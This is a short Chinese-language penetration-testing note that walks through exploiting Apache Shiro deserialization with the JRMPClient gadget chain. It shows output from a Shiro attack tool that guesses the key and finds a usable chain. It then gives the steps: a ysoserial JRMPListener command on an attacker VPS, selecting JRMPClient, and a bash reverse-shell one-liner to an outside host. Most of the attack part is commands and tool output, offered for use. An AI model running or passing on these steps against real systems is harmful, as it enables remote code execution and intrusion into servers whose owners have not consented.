 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，可以尝试JRMPClient，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x00 漏洞利用
  
  1.使用ysoserial.jar 工具搭建服务，VPS执行 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping rskzeg.dnslog.cn"
  
  2.shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址
  
  3.执行反弹命令bash -i >& /dev/tcp/xxxxxx/8888 0>&1
  
